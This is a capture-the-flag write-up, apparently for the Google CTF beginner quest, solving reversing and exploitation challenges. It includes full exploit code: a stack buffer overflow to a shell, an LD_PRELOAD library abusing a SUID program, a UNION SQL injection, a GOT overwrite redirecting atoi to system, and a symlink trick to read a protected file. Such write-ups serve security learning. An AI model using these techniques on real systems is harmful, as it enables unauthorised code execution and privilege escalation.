```objdump
    414144dd:	48 8b 05 5c 05 00 00 	mov    rax,QWORD PTR [rip+0x55c]        # 41414a40 <_ZL4FLAG>
    414144e4:	48 8b 15 5d 05 00 00 	mov    rdx,QWORD PTR [rip+0x55d]        # 41414a48 <_ZL4FLAG+0x8>
    414144eb:	48 89 85 70 ff ff ff 	mov    QWORD PTR [rbp-0x90],rax
    414144f2:	48 89 95 78 ff ff ff 	mov    QWORD PTR [rbp-0x88],rdx
    414144f9:	48 8b 05 50 05 00 00 	mov    rax,QWORD PTR [rip+0x550]        # 41414a50 <_ZL4FLAG+0x10>
    41414500:	48 8b 15 51 05 00 00 	mov    rdx,QWORD PTR [rip+0x551]        # 41414a58 <_ZL4FLAG+0x18>
    41414507:	48 89 45 80          	mov    QWORD PTR [rbp-0x80],rax
    4141450b:	48 89 55 88          	mov    QWORD PTR [rbp-0x78],rdx
    4141450f:	0f b7 05 4a 05 00 00 	movzx  eax,WORD PTR [rip+0x54a]        # 41414a60 <_ZL4FLAG+0x20>
    41414516:	66 89 45 90          	mov    WORD PTR [rbp-0x70],ax
    4141451a:	0f b6 05 41 05 00 00 	movzx  eax,BYTE PTR [rip+0x541]        # 41414a62 <_ZL4FLAG+0x22>
    41414521:	88 45 92             	mov    BYTE PTR [rbp-0x6e],al
```

The final part consists of some checks and locations targeted by jumps:

```objdump
    41414524:	48 8d 85 70 ff ff ff 	lea    rax,[rbp-0x90]
    4141452b:	48 85 c0             	test   rax,rax
    4141452e:	74 07                	je     41414537 <_Z15secondary_loginv+0xf1>
    41414530:	b8 01 00 00 00       	mov    eax,0x1
    41414535:	eb 05                	jmp    4141453c <_Z15secondary_loginv+0xf6>
    41414537:	b8 00 00 00 00       	mov    eax,0x0
    4141453c:	84 c0                	test   al,al
    4141453e:	74 13                	je     41414553 <_Z15secondary_loginv+0x10d>
    41414540:	48 8d 3d 3f 06 00 00 	lea    rdi,[rip+0x63f]        # 41414b86 <_ZL4FLAG+0x146>
    41414547:	e8 44 c5 fe be       	call   400a90 <puts@plt>
    4141454c:	e8 3d fd ff ff       	call   4141428e <_Z12command_linev>
    41414551:	eb 16                	jmp    41414569 <_Z15secondary_loginv+0x123>
    41414553:	48 8d 3d 3a 06 00 00 	lea    rdi,[rip+0x63a]        # 41414b94 <_ZL4FLAG+0x154>
    4141455a:	e8 31 c5 fe be       	call   400a90 <puts@plt>
    4141455f:	bf 01 00 00 00       	mov    edi,0x1
    41414564:	e8 37 c5 fe be       	call   400aa0 <exit@plt>
    41414569:	c9                   	leave
    4141456a:	c3                   	ret
```

The funny part here is, that as soon as the length-check above passed the program will allow access to the function `command_line` which basically is the authenticated area.

Side note: I am not sure if this was intended. The fact that it is allowed made me miss the first flag completely and focus straight on the next flag. I only found out about the flag hidden here after reading what others did here.

Sadly, when entering the authenticated area we will not find any flag (at least not obviously). It turns out that the flag was hidden in the memory at the named symbol `FLAG` (Who would have guessed? Yeah. I didn't.)
The assumed intended control flow would have wanted to check the initially xor'd user input with the bytes found in memory. Reversing this operation (i.e. xor the memory with `0xc7`) will reveal the flag required for this challenge: *CTF{Two_PasSworDz_Better_th4n_1_k?}*

<a name="adminui3"></a>

### ADMIN UI 3 (pwn-re)

When authenticating you are able to enter some commands. Your task is to exploit the admin interface.

Side note: As stated above I actually solved this challenge before ADMIN UI 2.

When using a debugger to inspect the memory you will notice that there are a few commands available:
* *quit*
* *version*
* *shell*
* *echo*
* *debug*

Of those only two seem interesting: shell and debug. Sadly when entering 'shell' you will not get far:

>

Though if we inspect our decompiled binary we can notice that the method intended for handling the shell command is still present and it would make a *system* call spawning `/bin/sh`.

Typing the command 'debug' sadly will not reveal any information new to us.

Let's take a closer look at the function:
```objdump
000000004141428e <_Z12command_linev>:
    4141428e:	55                   	push   rbp
    4141428f:	48 89 e5             	mov    rbp,rsp
    41414292:	53                   	push   rbx
    41414293:	48 81 ec 28 01 00 00 	sub    rsp,0x128
    4141429a:	48 8d 3d ca 07 00 00 	lea    rdi,[rip+0x7ca]        # 41414a6b <_ZL4FLAG+0x2b>
    414142a1:	b8 00 00 00 00       	mov    eax,0x0
    414142a6:	e8 c5 c7 fe be       	call   400a70 <printf@plt>
    414142ab:	48 8d 45 d0          	lea    rax,[rbp-0x30]
    414142af:	48 89 c7             	mov    rdi,rax
    414142b2:	e8 83 ff ff ff       	call   4141423a <_Z5getsxPc>
```

We can see that another function called `getx` gets called to parse user input. Also note that this function fills a buffer alocated in the function `command_line`.

When inspecting `getx` we notice that it is a reinvention of `std::strcpy`. Though inspecting the memory reveals that it copies until it finds the character `\n` (newline).

Since it does not check the length of the string copied we may potentially exploit a simple buffer overflow here. Let's try it!

To get an idea of what is going on we will begin by just filling the the buffer with a large number of characters (I piped a string of 500 'A's). To check if the overflow works we have to return from the function `command_line` as the variable we have just written to was allocated by it. We can simply enter 'quit' and the function will return. When inspecting the stack just before we notice that it works:
```
[------------------------------------stack-------------------------------------]
0000| 0x7ffc6771fde8 ('A' <repeats 200 times>...)
0008| 0x7ffc6771fdf0 ('A' <repeats 200 times>...)
0016| 0x7ffc6771fdf8 ('A' <repeats 200 times>...)
0024| 0x7ffc6771fe00 ('A' <repeats 200 times>...)
0032| 0x7ffc6771fe08 ('A' <repeats 200 times>...)
0040| 0x7ffc6771fe10 ('A' <repeats 200 times>...)
0048| 0x7ffc6771fe18 ('A' <repeats 200 times>...)
0056| 0x7ffc6771fe20 ('A' <repeats 200 times>...)
[------------------------------------------------------------------------------]
```
After continuing we obviously recieve SIGSEGV (segmentation fault) because we just corrupted the stack.

Further inspecting the memory reveals that we actually need exactly 56 bytes before we arrive at the position of the return address on the stack.
Since we already have a function which opens a shell for us we can simply replace the return address with the address of that function.

The full exploit now just looks like this:
```python
from pwn import *

if __name__ == '__main__':
    con = remote('mngmnt-iface.ctfcompetition.com', 1337)
    [ con.recvline() for _ in range(4) ]
    con.sendline('1')  # choose to login
    con.recvline()
    con.sendline('CTF{I_luv_buggy_sOFtware}')  # first password
    con.recvline()
    con.recvline()
    con.sendline('X' * 35)  # second password
    con.recv()

    # begin exploit
    con.sendline('A' * 56 + '\x27\x42\x41\x41')
    con.recvline()
    con.sendline('quit')
    con.recvline()
    # end

    con.interactive()
```

We now have a shell and can start exploring the system. Listing the directory will reveal a file called *an0th3r_fl44444g_yo* which contains our flag *CTF{c0d3ExEc?W411_pL4y3d}*.

Side note: The binary was not compiled with any stack protection mechanisms which made exploiting a buffer overflow pretty easy. In other write ups I read about an string format exploit available in the 'echo' command which allows us to leak memory and effectivly would allow us to bypass simple stack protection mechanisms. Check [this](http://uaf.io/exploitation/2015/09/29/Stack-CANARY-Overwrite-Primer.html) blog post for an example.

<a name="firmware"></a>

## FIRMWARE (re)

You recieve the firmware and should find the the flag inside it.

When unpacking the file recieved you will notice that it is a `.ext4` file. So let's try to mount it (sudo may be required):

```
$ mkdir mountpoint
$ sudo mount challenge2.ext4 mountpoint
```

From this point you can walk through the file system. The flag can be found quite easily though. After making sure that you are able to view hidden files you will find an archive `.mediapc_backdoor_password.gz`. The content is a file with the flag *CTF{I_kn0W_tH15_Fs}*.

<a name="gatekeeper"></a>

## GATEKEEPER (re)

You are given a binary and should reverse it in order to retrieve the flag.

Executing the binary will prompt you with the correct usage:

```
/===========================================================================\
|               Gatekeeper - Access your PC from everywhere!                |
+===========================================================================+
[ERROR] Login information missing
Usage: ./gatekeeper <username> <password>
```

So let's try adding some arguments and inspect the code in a debugger:

```
$ gdb --args gatekeeper ABCD EFGH
gdb$ break main
gdb$ run
```

After some very necessary text animations you will reach a point where the username is checked:

```objdump
   0x555555554a35 <main+126>:	add    rax,0x8
   0x555555554a39 <main+130>:	mov    rax,QWORD PTR [rax]
   0x555555554a3c <main+133>:	lea    rsi,[rip+0x39d]        # 0x555555554de0
   0x555555554a43 <main+140>:	mov    rdi,rax
=> 0x555555554a46 <main+143>:	call   0x555555554770 <strcmp@plt>
   0x555555554a4b <main+148>:	test   eax,eax
   0x555555554a4d <main+150>:	je     0x555555554a7b <main+196>
   0x555555554a4f <main+152>:	mov    edi,0xa
```

When inspecting the memory at `0x555555554de0` you will find the correct username *0n3_W4rM*.

After that we can re-run our program with the correct username.

When stepping through the password validation we will notice that our password is copied to a new location in reverse order. It is checked eventually:

```objdump
   0x555555554b49 <main+402>:	mov    rax,QWORD PTR [rbp-0x10]
   0x555555554b4d <main+406>:	lea    rsi,[rip+0x2ad]        # 0x555555554e01
   0x555555554b54 <main+413>:	mov    rdi,rax
=> 0x555555554b57 <main+416>:	call   0x555555554770 <strcmp@plt>
   0x555555554b5c <main+421>:	test   eax,eax
   0x555555554b5e <main+423>:	jne    0x555555554bba <main+515>
   0x555555554b60 <main+425>:	lea    rdi,[rip+0x2ab]        # 0x555555554e12
   0x555555554b67 <main+432>:	call   0x5555555548ca <text_animation>
```

Again inspecting the memory at `0x555555554e01` will recover the password *zLl1ks_d4m_T0g_I*. We need to remember that the entered password was reversed during the validation process so this string is actually the reverse of the correct passphrase.

Running the programm again will yield the desired flag *CTF{I_g0T_m4d_sk1lLz}*.

Side note: You may have guessed this password simply by inspecting the hexdump of the binary and looking at the pre-defined strings.


<a name="filterenv"></a>

## FILTER ENV (pwn)

You have a shell on the *Temp-o-matic*. When browsing the directories you find a file called 'flag' but you cannot open it because you do not have the required permissions. Your task is to use the executable *filterenv* (which has the SUID set) to access the file.

You have access to the source code of the exectuable, so let's take a look at it.

The program accesses the environment variables and requests the user to specify new ones. After that it clears the newly created environment off some unsafe variables.

The first part is the function `static char **readenv(void)`. Sadly we cannot abuse any buffer overflow vulnerabilities.
One thing to notice though, is the fact that this function simply **adds** environment variables to the environment. It does not check whether it existed before and therefor allows multi-declaration of variables.
Also interesting is the fact that it does not add an explicit *NULL*-entry at the end of the array. This can (and will) cause the functions `getenv` and `setenv` to throw a segmentation fault under certain (unlucky) circumstances. (F.e. this may be achieved by adding three rather short strings)

After that the new environment is set and finally filtered, i.e. the following variables are removed:

```c
static char *unsafe[] = {
  "GCONV_PATH\x00",
  "GETCONF_DIR\x00",
  "HOSTALIASES\x00",
  "LD_AOUT_LIBRARY_PATH\x00",
  "LD_AOUT_PRELOAD\x00",
  "LD_AUDIT\x00",
  "LD_DEBUG\x00",
  "LD_DEBUG_OUTPUT\x00",
  "LD_DYNAMIC_WEAK\x00",
  "LD_LIBRARY_PATH\x00",
  "LD_ORIGIN_PATH\x00",
  "LD_PRELOAD\x00",
  "LD_PROFILE\x00",
  "LD_SHOW_AUXV\x00",
  "LD_USE_LOAD_BIAS\x00",
  "LOCALDOMAIN\x00",
  "LOCPATH\x00",
  "MALLOC_TRACE\x00",
  "NIS_PATH\x00",
  "NLSPATH\x00",
  "RESOLV_HOST_CONF\x00",
  "RES_OPTIONS\x00",
  "TMPDIR\x00",
  "TZDIR\x00",
  NULL,
};
```

Some of the more interesting ones include `LD_LIBRARY_PATH` or especially `LD_PRELOAD`. The latter would allow us to overwrite any function by specifing a library which gets loaded *before any other*. For further information on this check f.e. [this](https://linux.die.net/man/8/ld.so) or [this](http://www.goldsborough.me/c/low-level/kernel/2016/08/29/16-48-53-the_-ld_preload-_trick/).

At the end the program makes a system call to show information about the current user:

```c
int main(void) {
  char *arg[] = { "/bin/id", NULL };

  // ...

  if (execvp(arg[0], arg) != 0)
    err(1, "execvp");

  return 0;
}
```

If we could set the `LD_PRELOAD` to our custom library we can simply alter the `id` execution flow.

Since the program does contain some bugs (as pointed out above) we can just set an environment variable twice in order to avoid getting it removed.

So how do we construct the library?

When inspecting the shared library calls of `id` we can see that the first function called is `__libc_start_main()`:

```
$ ltrace id
__libc_start_main(0x401ac0, 1, 0x7ffdb9b30198, 0x406120 <unfinished ...>
is_selinux_enabled(1, 0x7ffdb9b30198, 0x7ffdb9b301a8, 0)           = 0
strrchr("id", '/')                                                 = nil
setlocale(LC_ALL, "")                                              = "LC_CTYPE=en_US.UTF-8;LC_NUMERIC="...
bindtextdomain("coreutils", "/usr/share/locale")                   = "/usr/share/locale"
textdomain("coreutils")                                            = "coreutils"
__cxa_atexit(0x402cf0, 0, 0, 0)                                    = 0

[rest omitted]
```

So let's make a library which overwrites this functions and simply runs `cat` to display the content of the file `flag`:

```c
/* lib.c */
#include <stdlib.h>
#include <unistd.h>

int __libc_start_main() {
    char *arg[] = { "/bin/cat", "/home/adminimum/flag", 0 };
    execve(arg[0], arg, 0);
    exit(0);
}
```

To compile it as a shared library we can use *gcc* with the `-fPIC` and `-shared` flags:
```
$ gcc -Wall -fPIC -shared -o lib.so lib.c
```

Now we have to somehow upload it to the *Temp-o-matic*. Eventually a *base64* encoding will work.

When trying to write it to the home directory we will recieve an error message, indicating that it is an read-only directory.
Another directory to try out is `/tmp` and indeed this one will work.

The final exploit then looks like this:
```python
from pwn import *
import base64

if __name__ == '__main__':

    # encode lib
    with open('lib.so', 'rb') as f:
        lib = base64.b64encode(f.read())

    # connect to the temp-o-matic
    con = remote('env.ctfcompetition.com', 1337)

    # upload library
    con.sendline('cd /tmp')
    con.sendline('echo "%s" > lib' % lib.decode())
    con.sendline('base64 -d lib > lib.so')

    # run the exploit
    con.sendline('/home/adminimum/filterenv')
    con.recvline()
    con.sendline('LD_PRELOAD=ANYTHING')
    con.sendline('LD_PRELOAD=/tmp/lib.so')
    con.sendline('')

    log.info('FLAG = "%s"' % con.recv().decode())
```

This will reveal the flag *CTF{H3ll0-Kingc0p3}*.

Side note: I needed help for this challenge as I did know very little about UNIX environment variables and what some are capable of.

<a name="mediadb"></a>

## MEDIA-DB (misc)

Through the gatekeeper you are able to access a custom database to organize your music. Your task is to retrieve an access-token from the database.

The script which proxies the access to the database is also accessable by you. It uses an in-memory sqlite database and writes the flag into a table called `oauth_tokens` on start-up.

When skimming through the options you can notice that it does no proper escaping of user input:
```python
artist = raw_input().replace('"', "")
my_print("song name?")
song = raw_input().replace('"', "")
c.execute("""INSERT INTO media VALUES ("{}", "{}")""".format(artist, song))
```

Since for some reasons the original author of the script did use different escape tokens (i.e. `"` and `'`) exploiting this becomes fairly simple:

The insert query above only escapes `"` while the other queries use single quotes.

Especially interesting as target is the last option:
```python
artist = random.choice(list(c.execute("SELECT DISTINCT artist FROM media")))[0]
my_print("choosing songs from random artist: {}".format(artist))
print_playlist("SELECT artist, song FROM media WHERE artist = '{}'".format(artist))
```

It takes as input an entry from the database and again does no proper escaping. So if we would place a carefully crafted query inside an *artist* column we should be able to retrieve the token quite easily.

In order to append statements to the query our only option is to use `UNION` or `UNION ALL` since the sqlite wrapper will not allow us to specify multiple queries in a single `execute()` call. Since the first query retrieves 2 attributes we have also have to retrieve 2 from `oauth_tokens`. I simply chose the count function:

```sql
' UNION ALL SELECT COUNT(*), * FROM oauth_tokens
```

To complete the query we have to deal with the enclosing single quote. I simply added another query of the first form.

Finally we can run our simple exploit:

```
$ nc media-db.ctfcompetition.com 1337
=== Media DB ===
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 1
artist name?
' UNION ALL SELECT COUNT(*), * FROM oauth_tokens UNION ALL SELECT artist, song FROM media WHERE song ='
song name?
Song of my people
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 4
choosing songs from random artist: ' UNION ALL SELECT COUNT(*), * FROM oauth_tokens UNION ALL SELECT artist, song FROM media WHERE song ='

== new playlist ==
1: "CTF{fridge_cast_oauth_token_cahn4Quo}
" by "1"
```

And we are done!


<a name="fridgetodo"></a>

## FRIDGE TODO LIST (pwn)

This one turned out to be quite challenging.

You are given access to a 'TODO networking service'. The executable and the code are accessable to you. The task is to open the todos of someone called Wintermuted.

When running the program it asks for a username. It then proceeds to load the TODO list from a file located at `todos/<username>`.
We cannot abuse any path traversal bugs since the name is checked to only contain alpha-numeric characters. We could use bruteforce to test all possible usernames.

Anyway the tool continues by displaying a menu. You can select an option by entering its index:
```
Hi user, what would you like to do?
1) Print TODO list
2) Print TODO entry
3) Store TODO entry
4) Delete TODO entry
5) Remote administration
6) Exit
>
```

When inspecting the source for the functions to store and print entries you will notice that each reads in an integer determining the index of the entry to store / view:
```c
   int idx = read_int();
   if (idx > TODO_COUNT) {
     puts(OUT_OF_BOUNDS_MESSAGE);
     return;
   }
   /* ... */
   read_line(&todos[idx*TODO_LENGTH], TODO_LENGTH);
```

This part introduces several bugs: The first one I noticed is that the index may be equal to `TODO_COUNT`. This would allow writing/reading out of the bounds of the array.
The next one is that the index is a *signed* integer but it is not checked to be positive. This will allow us to read/write memory at positions before the array.

When inspecting the disassembly of the binary we will find our variables to be in the *.bss* section:
```objdump
Disassembly of section .bss:

00000000002030c0 <stdout@@GLIBC_2.2.5>:
        ...

00000000002030d0 <stdin@@GLIBC_2.2.5>:
        ...

00000000002030d8 <completed.7011>:
        ...

00000000002030e0 <username>:
        ...

0000000000203120 <todo_fd>:
        ...

0000000000203140 <todos>:
        ...
```

Let's take a look which sections are located right before .bss:
```
$ readelf -S -W todo
Section Headers:
  [Nr] Name              Type            Address          Off    Size   ES Flg Lk Inf Al
...
  [22] .got              PROGBITS        0000000000202fd8 002fd8 000028 08  WA  0   0  8
  [23] .got.plt          PROGBITS        0000000000203000 003000 000098 08  WA  0   0  8
  [24] .data             PROGBITS        0000000000203098 003098 000010 00  WA  0   0  8
  [25] .bss              NOBITS          00000000002030c0 0030a8 001880 00  WA  0   0 32
```

The rather interesting ones for us are .got and .got.plt, the global offset table and the global offset table for the procedure linkage table respectively.
They contain the target addresses of functions after they have been looked up or an address which points back to .plt.

So let's take a look at the .plt section and find out which functions are present (Only a subset is shown.):
```objdump
Disassembly of section .plt:

00000000000008f0 <puts@plt-0x10>:
 8f0:	ff 35 12 27 20 00    	push   QWORD PTR [rip+0x202712]        # 203008 <_GLOBAL_OFFSET_TABLE_+0x8>
 8f6:	ff 25 14 27 20 00    	jmp    QWORD PTR [rip+0x202714]        # 203010 <_GLOBAL_OFFSET_TABLE_+0x10>
 8fc:	0f 1f 40 00          	nop    DWORD PTR [rax+0x0]

0000000000000900 <puts@plt>:
 900:	ff 25 12 27 20 00    	jmp    QWORD PTR [rip+0x202712]        # 203018 <_GLOBAL_OFFSET_TABLE_+0x18>
 906:	68 00 00 00 00       	push   0x0
 90b:	e9 e0 ff ff ff       	jmp    8f0 <_init+0x20>

0000000000000910 <write@plt>:
 910:	ff 25 0a 27 20 00    	jmp    QWORD PTR [rip+0x20270a]        # 203020 <_GLOBAL_OFFSET_TABLE_+0x20>
 916:	68 01 00 00 00       	push   0x1
 91b:	e9 d0 ff ff ff       	jmp    8f0 <_init+0x20>

0000000000000940 <system@plt>:
 940:	ff 25 f2 26 20 00    	jmp    QWORD PTR [rip+0x2026f2]        # 203038 <_GLOBAL_OFFSET_TABLE_+0x38>
 946:	68 04 00 00 00       	push   0x4
 94b:	e9 a0 ff ff ff       	jmp    8f0 <_init+0x20>

00000000000009d0 <open@plt>:
 9d0:	ff 25 aa 26 20 00    	jmp    QWORD PTR [rip+0x2026aa]        # 203080 <_GLOBAL_OFFSET_TABLE_+0x80>
 9d6:	68 0d 00 00 00       	push   0xd
 9db:	e9 10 ff ff ff       	jmp    8f0 <_init+0x20>

00000000000009e0 <atoi@plt>:
 9e0:	ff 25 a2 26 20 00    	jmp    QWORD PTR [rip+0x2026a2]        # 203088 <_GLOBAL_OFFSET_TABLE_+0x88>
 9e6:	68 0e 00 00 00       	push   0xe
 9eb:	e9 00 ff ff ff       	jmp    8f0 <_init+0x20>
```

Since the executable was compiled with the `-no-pie` flag (no position-independent-executable) we have to retrieve the positions of the sections in memory first.

We can only access memory at positions `todos - 48 * i`. So we have to find a function which happens to be located at such a position:
```python
>>> for i in range(10):
...     print(i, hex(0x203140 - i*48))
...
0 0x203140
1 0x203110
2 0x2030e0
3 0x2030b0
4 0x203080
5 0x203050
6 0x203020
7 0x202ff0
8 0x202fc0
9 0x202f90
```

The addresses of `write` (at 0x203020) and `open` (at 0x203080) are readable. Since `write` is only called at the end of the program so the address was not resolved yet. This means that the entry in the offset table points back to .plt (to +0x916 to be exact. This is the address of the resolve routine of the function, see above). With this address we can calculate the address of the .plt section.

Since we now have the address of .plt we can now control the execution flow. We can choose which standard lib functions are called. A good function to be called seems to be `system`.
Since the signature of `system` and `atoi` match and `atoi` gets called with *our* input all the time it seems a good target to overwrite.

The address of `atoi` is located at 0x203088. Since we can only access 0x203080 we have to put some buffer before our actual target address.
After writing the address our input is passed to `system` and we can simply enter `/bin/sh` to spawn a shell.

Putting it all together yields the following exploit:
```python
from pwn import *
import sys
import struct

if __name__ == '__main__':
    p = remote('fridge-todo-list.ctfcompetition.com', 1337)

    p.recv()
    p.recv()

    p.sendline('user')

    p.sendline('2')  # read entry

    # read address of write 0x203020 = 0x203140 - 48 * 6 in section .got.plt
    p.sendline('-6')

    p.recvuntil('TODO: ')
    addr = p.recvuntil('\n\n')[:-2]
    addr = addr.ljust(8, bytes([0]))
    addr = struct.unpack('<Q', addr)[0]

    # this address was not resolved yet so it points back to .plt
    log.info('Address of .plt: %s' % hex(addr - 0x916))

    sys_addr = struct.pack('<Q', addr - 0x916 + 0x940)
    log.info('Address of system@plt: %s' % hex(addr - 0x916 + 0x940))

    p.sendline('3')  # store entry

    # we want to overwrite atoi since it is called all the time and matches
    # the system signature perfectly
    # target address is at 0x203088 = 0x203140 - 48 * 4 + 8
    p.sendline('-4')

    p.send('A' * 8)
    p.send(sys_addr)
    p.send('\n')

    p.recv()

    p.interactive()
```

When navigating the system you will find the correct username of Wintermuted (*CountZero*). Logging in as him or displaying the file directly will yield the correct flag *CTF{goo.gl/cjHknW}*.


<a name="holeybeep"></a>

## HOLEY BEEP (pwn)

The final task is to (yet again) exploit an executable which has SUID privileges. The previous challenge opened a shell on the device and we could find the `/secret_cake_recipe`. However we could not access it because we lack the rights to do so.

Let's start by inspecting the file we got. Again it was compiled with the `-no-pie` flag making address guessing harder.

When stepping through the executable we can see that it registers a custom handler for a signal:
```objdump
0x5555555549d4 <main+11>:    mov    QWORD PTR [rbp-0x20],rsi
0x5555555549d8 <main+15>:    lea    rsi,[rip+0xffffffffffffff2b]        # 0x55555555490a <handle_sigterm>
0x5555555549df <main+22>:    mov    edi,0xf
=> 0x5555555549e4 <main+27>:    call   0x555555554790 <signal@plt>
```

After taking a look into the manual (`$ man 7 signal`) we can see that it registers a handler for the signal SIGTERM (`0xf`).

Continuing the execution reveals that the program opens the file `dev/console` (Note that there is no leading /).
In order to proceed observing the general execution flow I simply created the file and put some text in it.

Eventually we will realize that the tool reads in all our arguments specified and passes them to `ioctl`. We can see that the request code is `0x4b2f`. A little research suggested that this would indeed make terminal sounds if we had a proper console at `dev/console`. However since we simply put a textfile there some errors for each argument are displayed and the program exits.

So let's have a look at the custom signal handler. We set a breakpoint to this method and send a SIGTERM signal to the process:
```bash
$ gdb --args holey_beep 1 2 3 4 5
gdb$ break main
gdb$ break handle_sigterm
gdb$ run
gdb$ signal SIGTERM
```

Note that we have to step a little bit through the main method in order to read the file and set the handler etc.

We will notice that the program reads our file and dumps the content to `stderr`!

So if we simply put the cake recipe to `dev/console` and send a SIGTERM we will have our flag. Sadly, it turns out that this is not as straightforward as expected.

We have to make sure the program is running long enough. A good option is to add many arguments since the program loops through each of them.

Since we cannot create file in the directory the executable is located in we have to create a link in f. e. the `/tmp` directory (using the shell aquired through the previous challenge). Finally a possible exploit might look like this:
```bash
$ cd /tmp
$ mkdir dev
$ ln -s /secret_cake_recipe dev/console
$ ln -s /home/user/holey_beep holey_beep
$ (./holey_beep $(seq 1 1000) &) && kill -TERM $(pidof holey_beep)
```

(I had to restart it once or twice before I recieved the flag)

This will reward us with a delicious cake recipe and the final flag *CTF{the_cake_wasnt_a_lie}*

